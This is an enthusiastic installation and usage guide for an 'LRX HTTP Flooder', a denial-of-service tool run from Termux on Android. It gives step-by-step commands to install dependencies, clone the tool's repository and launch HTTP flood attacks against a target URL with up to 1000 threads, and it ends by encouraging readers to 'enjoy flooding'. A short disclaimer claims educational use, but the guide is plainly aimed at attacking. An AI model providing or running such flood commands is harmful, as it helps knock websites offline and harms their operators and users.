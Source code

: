 🚀 Ultimate Guide: Installing LRX HTTP Flooder on Mobile (Termux) 🚀
Welcome to the LRX HTTP Flooder installation guide for mobile devices! This tool is designed to perform powerful HTTP flood attacks and is branded exclusively for LRX users. Follow this step-by-step guide to unleash the power of the LRX HTTP Flooder from your Android device!

📝 Prerequisites
An Android device with Termux installed.
Basic knowledge of using the command line.
A stable internet connection.
Make sure your device has Python 3.x installed (Termux will handle it).
🌐 Step 1: Installing Termux
Download and install Termux from F-Droid (recommended) or GitHub.

🛠️ Step 2: Updating and Upgrading Termux
Open Termux and update packages:
pkg update && pkg upgrade -y
This ensures that you have the latest versions of installed packages.

🐍 Step 3: Installing Python and Pip
Install Python and the pip package manager:
pkg install python -y
pip install --upgrade pip

📂 Step 4: Cloning the LRX HTTP Flooder from GitHub
Clone the repository using Git:
pkg install git -y
git clone https://github.com/YourUsername/LRX-HTTP-Flooder.git
cd LRX-HTTP-Flooder
(Replace YourUsername with your actual GitHub username.)

🧰 Step 5: Installing Required Python Libraries
Install necessary libraries using pip:
pip install requests matplotlib

🚀 Step 6: Running the LRX HTTP Flooder
To start the attack, use the following command:
python lrx_http_flooder.py --target https://example.com --duration 300 --threads 600
Replace the target URL, duration, and number of threads as needed.

💡 Example Usage
python lrx_http_flooder.py --target https://example.com --duration 600 --threads 1000
This will run the flooder against the specified target for 600 seconds with 1000 threads.

📝 Log and Status Monitoring
While running, the tool will display:

Total packets sent
HTTP status codes
Real-time request logs
🛑 Step 7: Stopping the Attack
To stop the attack, press:

objectivec
CTRL + C
✅ Troubleshooting
If you encounter errors related to Python libraries, reinstall them:
pip install --force-reinstall requests matplotlib

If the script doesn’t execute, make sure it has executable permissions:
chmod +x lrx_http_flooder.py

⚠️ Disclaimer
This tool is intended for educational and testing purposes only. Unauthorized use of this tool on third-party systems is illegal and punishable by law. Use responsibly and only on systems you own or have permission to test.

💬 Support
If you encounter any issues, feel free to open an issue on the GitHub repository or contact us via the support page.



ALL TERMUX CODE
pkg update && pkg upgrade -y
pkg install python -y
pip install --upgrade pip
pkg install git -y
git clone https://github.com/YourUsername/LRX-HTTP-Flooder.git
cd LRX-HTTP-Flooder
pip install requests matplotlib
python lrx_http_flooder.py --target https://example.com --duration 300 --threads 600


Enjoy flooding with the power of LRX! 🔥
